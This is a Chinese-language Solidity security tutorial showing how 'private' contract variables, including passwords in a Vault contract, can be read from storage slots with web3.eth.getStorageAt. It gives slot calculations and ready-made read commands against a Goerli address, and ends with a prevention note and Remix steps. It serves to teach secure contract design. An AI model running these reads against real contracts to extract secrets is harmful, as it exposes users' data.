

# 69.Accessing Private Data
## 漏洞
所有智能合约数据都可以被读取。

让我们看看如何读取私人数据。在此过程中，您将学习Solidity如何存储状态变量。

注意：无法在JVM上使用web3，因此使用部署在Goerli上的合约
注意：浏览器Web3已经过时，因此请使用truffle控制台中的Web3

合约部署在Goerli上
0x534E4Ce0ffF779513793cfd70308AF195827BD31

### 存储
- 2 ** 256个槽
- 每个槽32个字节
- 数据按声明顺序顺序存储
- 存储被优化以节省空间。如果相邻变量适合单个32字节，则它们将从右侧开始打包到同一槽中

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

contract Vault {
    // 槽0
    uint public count = 123;
    // 槽1
    address public owner = msg.sender;
    bool public isTrue = true;
    uint16 public u16 = 31;
    // 槽2
    bytes32 private password;

    // 常量不使用存储
    uint public constant someConst = 123;

    // 槽3，4，5（每个数组元素一个）
    bytes32[3] public data;

    struct User {
        uint id;
        bytes32 password;
    }

    // 槽6-数组长度
    // 从哈希（6）开始-数组元素存储
    // 存储数组元素的槽= keccak256（slot）+（index * elementSize）
    // 其中slot = 6，elementSize = 2（1（uint）+ 1（bytes32））
    User[] private users;

    // 槽7-空
    // 条目存储在哈希（key，slot）处
    // 其中slot = 7，key = map key
    mapping(uint => User) private idToUser;

    constructor(bytes32 _password) {
        password = _password;
    }

    function addUser(bytes32 _password) public {
        User memory user = User({id: users.length, password: _password});

        users.push(user);
        idToUser[user.id] = user;
    }

    function getArrayLocation(
        uint slot,
        uint index,
        uint elementSize
    ) public pure returns (uint) {
        return uint(keccak256(abi.encodePacked(slot))) + (index * elementSize);
    }

    function getMapLocation(uint slot, uint key) public pure returns (uint) {
        return uint(keccak256(abi.encodePacked(key, slot)));
    }
}

/*
槽0-计数
web3.eth.getStorageAt("0x534E4Ce0ffF779513793cfd70308AF195827BD31", 0, console.log)
槽1-u16，isTrue，owner
web3.eth.getStorageAt("0x534E4Ce0ffF779513793cfd70308AF195827BD31", 1, console.log)
槽2-密码
web3.eth.getStorageAt("0x534E4Ce0ffF779513793cfd70308AF195827BD31", 2, console.log)

槽6-数组长度
getArrayLocation(6, 0, 2)
web3.utils.numberToHex("111414077815863400510004064629973595961579173665589224203503662149373724986687")
注意：我们也可以使用web3获取数据位置
web3.utils.soliditySha3({ type: "uint", value: 6 })
第一个用户
web3.eth.getStorageAt("0x534E4Ce0ffF779513793cfd70308AF195827BD31", "0xf652222313e28459528d920b65115c16c04f3efc82aaedc97be59f3f377c0d3f", console.log)
web3.eth.getStorageAt("0x534E4Ce0ffF779513793cfd70308AF195827BD31", "0xf652222313e28459528d920b65115c16c04f3efc82aaedc97be59f3f377c0d40", console.log)
注意：使用web3.toAscii将bytes32转换为字母表
第二个用户

web3.eth.getStorageAt("0x534E4Ce0ffF779513793cfd70308AF195827BD31", "0xf652222313e28459528d920b65115c16c04f3efc82aaedc97be59f3f377c0d41", console.log)
web3.eth.getStorageAt("0x534E4Ce0ffF779513793cfd70308AF195827BD31", "0xf652222313e28459528d920b65115c16c04f3efc82aaedc97be59f3f377c0d42", console.log)

槽7-空  
getMapLocation(7, 1)
web3.utils.numberToHex("81222191986226809103279119994707868322855741819905904417953092666699096963112")
注意：我们也可以使用web3获取数据位置
web3.utils.soliditySha3({ type: "uint", value: 1 }, {type: "uint", value: 7})
用户1
web3.eth.getStorageAt("0x534E4Ce0ffF779513793cfd70308AF195827BD31", "0xb39221ace053465ec3453ce2b36430bd138b997ecea25c1043da0c366812b828", console.log)
web3.eth.getStorageAt("0x534E4Ce0ffF779513793cfd70308AF195827BD31", "0xb39221ace053465ec3453ce2b36430bd138b997ecea25c1043da0c366812b829", console.log)
*/
```
## 预防技术
不要在区块链上存储敏感信息。

## remix验证
1. 传入任意长度的传入任意长度的bytes32类型的值作为密码。来部署合约Vault

2. 调用合约中的函数，可以读取到合约存储的信息。所以，不要在区块链上存储敏感信息
